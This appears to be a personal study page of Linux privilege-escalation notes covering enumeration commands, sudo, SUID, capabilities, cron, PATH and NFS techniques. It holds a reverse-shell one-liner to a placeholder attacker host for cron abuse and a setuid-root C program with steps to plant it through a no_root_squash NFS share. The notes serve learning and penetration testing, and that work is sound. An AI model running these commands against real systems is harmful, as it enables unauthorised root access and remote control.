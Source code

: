 Notes on privilege esc - might be formatted later (probably not)

extremely useful
curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems - https://gtfobins.github.io/#

exploit-db - https://www.exploit-db.com/

0. Enumeration

automaded enum examples:

[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[LinEnum](https://github.com/rebootuser/LinEnum)

[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

hostname
/proc/version - info about system processes
/etc/issue - info about OS
ps -A - all running processes
ps axjf - view process trree
ps aux - processes for all users
env - environmental variables
sudo -l
ls -l
id
/etc/passwd
/etc/shadow
history
ifconfig
netstat -a - all listening ports and established connections
        -at or netstat -au - lists TCP/UDP respectively
        -l - lists ports in listening mode
        -s - network usage statistics
        -t - connections with service name and PID
        -i - interface stats
        -ano - display all sockets, do not resolve names, do not display timers
find writable folders        
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

find world-executable folders
find / -perm -o x -type d 2>/dev/null

find development tools and supported languages
find / -name perl*
find / -name python*
find / -name gcc*

find files with SUID bit
find / -perm -u=s -type f 2>/dev/null

1. Kernel Exploits

2. Sudo
sudo -l

3. SUID
find / -type f -perm -04000 -ls 2>/dev/null    -   will list files that have SUID or SGID bits set

4. Capabilities
getcap -r / 2>/dev/null

5. Cron Jobs
/etc/crontab

reverse shell example invoked with cron
#!/bin/bash
bash -i >& /dev/tcp/LHOST/LPORT 0>&1

6. PATH - in Linux is an environmental variable that tells the operating system where to search for executables.
What folders are located under $PATH
Does your current user have write privileges for any of these folders?
Can you modify $PATH?
Is there a script/application you can start that will be affected by this vulnerability?

find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

to add /tmp to PATH:
export PATH=/tmp:$PATH

7. NFS - Network File Sharing
/etc/exports - holds NFS
If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

enumerate mountable shares
showmount -e RHOST

mount the vuln share to our attacking machine 

mkdir /tmp/backuponattackermachine
mount -o rw RHOST:/backup /tmp/backuponattackermachine

and build exec in the share

int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
 }

compile the file

gcc nfs.c -o nfs -w

set the SUID bit

chmod +s nfs
